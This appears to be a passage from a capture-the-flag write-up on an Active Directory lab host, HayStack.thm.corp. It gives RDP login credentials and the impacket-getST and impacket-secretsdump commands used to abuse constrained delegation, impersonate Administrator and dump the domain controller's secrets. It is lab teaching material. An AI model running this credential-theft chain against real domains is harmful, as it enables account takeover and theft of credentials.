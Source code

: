 ![](https://i.imgur.com/5HfP4fR.png)



- We can then go ahead and login to user `DARLA_WINTERS` to enumerate the constrained delegation we found on the CIFS service


```bash
xfreerdp /v:HayStack.thm.corp /u:DARLA_WINTERS /p:'newP@ssword2022'
```


![](https://i.imgur.com/44qvtrL.png)



- Unfortunately for us, we can't load tools and i am not ready for some AV evasion on a CTF 🤣, Anyways i found this two resources to be helpful for me on abusing constrained delegation using Kali


1. [https://wadcoms.github.io/wadcoms/Impacket-getST-Creds/](https://wadcoms.github.io/wadcoms/Impacket-getST-Creds/)
2. [https://blog.redxorblue.com/2019/12/no-shells-required-using-impacket-to.html](https://blog.redxorblue.com/2019/12/no-shells-required-using-impacket-to.html)


- First of all retrieve a ticket for an impersonated user to the service we have delegation rights to using `impacket-getST`



```bash
impacket-getST -spn cifs/HayStack.thm.corp -dc-ip 10.10.200.9 -impersonate Administrator thm.corp/DARLA_WINTERS:'newP@ssword2022'
```



![](https://i.imgur.com/vMzGjTz.png)



- Now export this file into a variable called `KRB5CCNAME`


```bash
export KRB5CCNAME=Administrator.ccache
```



![](https://i.imgur.com/9xroMub.png)



- We can then go ahead and dump the SAM archive of the DC, **"Haystack.thm.corp"**, using `impacket-secretsdump`




```bash
impacket-secretsdump -k -no-pass HayStack.thm.corp
```
